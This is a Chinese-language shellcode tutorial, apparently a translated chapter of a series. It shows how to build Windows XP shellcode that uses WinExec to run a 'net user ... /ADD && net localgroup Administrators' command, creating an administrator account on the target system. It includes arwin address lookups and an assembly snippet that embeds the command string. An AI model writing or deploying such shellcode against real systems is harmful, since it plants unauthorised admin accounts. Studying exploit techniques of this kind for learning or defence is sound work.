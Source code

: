 ## 简介  ##

这个教程是对第一个教程的简单扩展；然而，现在我们不仅仅是简单的让shellcode睡眠5秒，它会调用WinExec函数在受感染者系统上创建一个管理员用户。本教程也会教你如何定义和定位字符串常量。在这里你要执行的命令字符串。我们会干净利落的退出这个进程所以不会再产生核心转储错误。 

教程的有些部分内容引用自这里 

[http://www.vividmachines.com/shellcode/shellcode.html. ](http://www.vividmachines.com/shellcode/shellcode.html)

## 我们的目标  ##

我们shellcode的目标是定位到命令字符串并通过WinExec执行它，在受感染系统上创建一个管理员用户。注意这个教程会在你系统上创建一个管理员账户，所以记住删掉它要不然你可能由于它被黑。 

## 我们需要什么函数，哪里找到它们?  ##

通过编程经验（或者至少通过Google），我们知道要在windows运行一个命令需要调用WinExec函数，要正确退出一个进程需要调用ExitProcess函数。这些都可以在Kernel32.dll中找到。 

我们会使用arwin（见前面教程）来定位这些函数的地址。可以使用下面的命令： 

    $ ./arwin.exe Kernel32.dll WinExec
    arwin - win32 address resolution program - by steve hanna - v.01
    WinExec is located at 0x7c8615b5 in Kernel32.dll
 

    $ ./arwin.exe Kernel32.dll ExitProcess
     arwin - win32 address resolution program - by steve hanna - v.01
     ExitProcess is located at 0x7c81ca82 in Kernel32.dll 

你得到的地址可能跟我的不同，这取决于系统和版本号。我用的是Windows XP SP2.我们在shellcode中用的是地址的硬编码，所以这意味着它只能在特定系统和版本运行。这也可能因为你安装的补丁而不同。有许多高级技术可以用来动态定位Kernel32.dll和函数地址。但这将在后面章节涉及。 

## 定义和定位字符串常量  ##

下面是我们将在shellcode中定义的字符串常量，我们通过它创建一个用户名为“PSuser”密码是“PSPassword”的用户： 

    'cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser' 

下面的代码片段尾部演示了如何定义字符串常量，前面演示如何定位这个字符串。 

    +--------------- [snip] ---------------+    
    jmp short GetCommand;Jump to where our string is located ("GetCommand" label below)
    CommandReturn:;Create a label we can call to return here.
    pop ebx;the "call" operation below has pushed its return address onto the stack, which we have designed to point to our string - so pop the address of the string off the stack and into ebx.
     ;At this point, ebx points to our string. 
    +--------------- [snip] ---------------+
    GetCommand: ;Create the "GetCommand" label where our string is located
         call CommandReturn ;"call" is like jump, but also pushes the return address (next instruction after call) onto the stack. Since our string is defined immediately after this instruction, the return address points to the address of our string.
         db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser" ;Write the raw bytes into the shellcode that represent our string.
         db 0x00 ;Terminate our string with a null character.
	+--------------- [snip] ---------------+ 
